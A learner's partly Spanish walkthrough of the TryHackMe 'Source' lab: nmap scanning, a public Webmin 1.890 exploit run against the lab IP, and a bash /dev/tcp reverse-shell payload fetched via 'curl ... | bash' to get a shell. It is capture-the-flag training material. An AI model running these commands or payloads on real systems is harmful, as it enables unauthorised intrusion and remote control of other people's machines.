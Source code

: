 # Source machine # 

**This machine is from tryhackme**

First step is connect to try hackme on a VPN with openvpn in the /Descargas folder, with our archive  the comand is:

*sudo openvpn cabezacortada.ovepn*

Now we are connected and we have an IP on that network , the second step is create a folder on the :
**/Documentos/Workspace/Virtual machines/pentesting/source** folder
Now we can work correctly

Now we use :

*ping -c 1 10.10.118.101* -This is the ip of the machine that we are going to attack

![[ttl.png]]

Mario says that TTL in the number 63 or 64, that corresponds to a Linux machine
on Windows it will be different 126 or 127 (??)

Now we use nmap 
*nmap -p- --open -sS -sC -sV -min-rate 5000 -vvv -n -Pn 10.10.118.101 -on SOURCEscn*
![[scansource.png]]

***SEGUN EL PINGUINO DE MARIO 
-p-  --open escanea puertos abiertos
-sV LA VERSION DE LOS SERVICIOS
-sS SYN SCAN mas sigiloso.
-min-rate 5000 para que valla mas rapido
-vvv para que reporte lo que va sacando
-n para evitar que haga resolucion DNS
-Pn evitar que haga PING en el ip***

And here is the scan 
![[nmapsource.png]]
Port 22 is vulnerable because the versions of OPEN SSH less than 7.7 are vulnerable
We are going to search on the port 10000 and we will see what is on this server

and... this is what we can se 
![[sourcewebmin.png]]

Now we are going to se the source code of the web site
![[sourcecodesource.png]]

One thing that we can do is search te version of webmin, but Mario cannot see it.
we are going to watch in google if we have some exploit for "webmin"

and we are going to use this repository of github :
https://github.com/n0obit4/Webmin_1.890-POC

and this is the guide of use 
We can put a comand in the and we ned a  -host(victims ip)       -cmd
![[exploitwebmin.png]]
We are not going to use *gitclone* we are going to use *raw* to get just **the file that we are interested in**

![[raw1.png]]
first we make click on raw
![[raw2.png]]

***wget https://raw.githubusercontent.com/n0obit4/Webmin_1.890-POC/master/Webmin_exploit.py*** 
secondly we copy the link on our console , inside the folder that we are working , so we can download the exploit

It's time to use the exploit :

*python Webmin_exploit.py -host 10.10.118.101 -port 10000 -cmd whoami*
![[itworks.png]]

As you can see it works, now we need yo win our reverse shell, we are going to do this first making a server on python, on the port 80, in the same folder that we are working on.

we create a folder with mkdir and inside we put a archive with the name 
index.html and inside of this we put this 

**#!/bin/bash

bash -i >& /dev/tcp/10.18.49.235/443 0>&1**

we will listen over our computer on the port 443 with netcat  and when the victim execute this we are going to get the reverse shell.
![[1.png]]

![[Cibersecurity/Virtual Machines/TryHackMe Machines/Source/IMAGES/2.png]]

![[Cibersecurity/Virtual Machines/TryHackMe Machines/Source/IMAGES/3.png]]

CON EL EXPLOIT QUE HABIAMOS ECHO DESCARGA EL ARCHIVO CON CURL Y DESPUES LO EJECUTA CON BASH, DESDE EL SERVIDOR QUE HABIAMOS CREADO 

![[4.png]]

*python Webmin_exploit.py -host 10.10.118.101 -port 10000 -cmd 'curl 10.18.49.235 | bash'*


Y FINALMENTE TENEMOS LA SHELL 

![[shellllll.png]]


